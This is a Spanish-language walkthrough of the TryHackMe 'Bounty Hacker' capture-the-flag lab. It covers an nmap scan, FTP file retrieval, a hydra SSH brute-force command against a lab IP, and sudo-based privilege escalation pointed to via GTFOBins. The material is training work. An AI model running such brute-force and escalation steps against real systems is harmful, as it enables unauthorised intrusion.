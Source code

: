 
# TryHackMe - Bounty Hacker

## Paso 1: Escaneo de la máquina objetivo
Utiliza `nmap` para identificar servicios y puertos abiertos en la máquina objetivo.

```bash
nmap <IP>
```

## Paso 2: Acceso al servicio FTP
Conecta al servicio FTP y explora los archivos disponibles.

```bash
ftp 10.10.2.220
```

1. Descarga los archivos disponibles en el servidor FTP:
   ```bash
   get <nombre_archivo>
   ```
   Asegúrate de guardar ambos archivos en tu sistema.

## Paso 3: Intentar acceso al SSH con las credenciales obtenidas
Utiliza los archivos descargados para intentar acceder al servicio SSH. Usaremos `hydra` para fuerza bruta.

```bash
hydra -l lin -P Downloads/locks.txt 10.10.2.220 ssh
```

Una vez identificadas las credenciales correctas, conecta al servidor SSH:

```bash
ssh lin@10.10.2.220
```

## Paso 4: Encontrar la primera bandera
Explora el sistema para encontrar la primera flag. Usa comandos como `ls`, `cat`, o `find` si es necesario.

```bash
cat <flag_file>
```

## Paso 5: Escalada de privilegios
Comprueba tus permisos actuales y busca posibles vulnerabilidades para escalar privilegios.

1. Ejecuta:
   ```bash
   sudo -l
   ```
2. Copia el resultado y busca la vulnerabilidad en [GTFOBins](https://gtfobins.github.io/).

3. Ejecuta el comando proporcionado para escalar privilegios y convertirte en `root`.

```bash
<comando_de_escalada>
```

4. Verifica tu nuevo nivel de privilegios:
   ```bash
   whoami
   ```

## Paso 6: Encontrar la última bandera
Utiliza `locate` o `find` para buscar y leer la última flag.

```bash
locate <flag_file>
cat <flag_file>
```
